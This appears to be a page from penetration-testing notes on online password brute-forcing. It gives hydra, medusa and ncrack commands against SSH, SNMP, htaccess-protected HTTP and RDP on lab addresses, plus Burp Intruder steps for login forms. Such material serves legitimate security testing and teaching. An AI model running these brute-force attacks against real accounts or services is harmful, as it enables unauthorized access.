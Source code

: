# Online password cracking


There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP. 

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```



## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess (I exaplin this in the chapter on Common ports).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite. 

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

## Port 161 - SNMP

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```